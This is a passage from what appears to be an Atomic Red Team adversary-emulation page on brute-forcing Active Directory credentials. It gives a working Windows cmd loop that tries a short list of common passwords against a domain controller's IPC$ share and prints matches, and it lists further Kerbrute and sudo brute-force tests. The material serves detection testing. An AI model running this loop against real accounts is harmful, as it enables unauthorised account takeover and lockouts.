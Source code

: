 - [Atomic Test #4 - Password Brute User using Kerbrute Tool](#atomic-test-4---password-brute-user-using-kerbrute-tool)

- [Atomic Test #5 - SUDO Brute Force - Debian](#atomic-test-5---sudo-brute-force---debian)

- [Atomic Test #6 - SUDO Brute Force - Redhat](#atomic-test-6---sudo-brute-force---redhat)


<br/>

## Atomic Test #1 - Brute Force Credentials of single Active Directory domain users via SMB
Attempts to brute force a single Active Directory account by testing connectivity to the IPC$ share on a domain controller

**Supported Platforms:** Windows


**auto_generated_guid:** 09480053-2f98-4854-be6e-71ae5f672224





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| user | Account to bruteforce | string | %username%|


#### Attack Commands: Run with `command_prompt`! 


```cmd
echo Password1> passwords.txt
echo 1q2w3e4r>> passwords.txt
echo Password!>> passwords.txt
echo Spring2022>> passwords.txt
echo ChangeMe!>> passwords.txt
@FOR /F "delims=" %p in (passwords.txt) DO @net use %logonserver%\IPC$ /user:"%userdomain%\#{user}" "%p" 1>NUL 2>&1 && @echo [*] #{user}:%p && @net use /delete %logonserver%\IPC$ > NUL
```






<br/>
<br/>

## Atomic Test #2 - Brute Force Credentials of single Active Directory domain user via LDAP against domain controller (NTLM or Kerberos)
Attempt to brute force Active Directory domain user on a domain controller, via LDAP, with NTLM or Kerberos

**Supported Platforms:** Windows

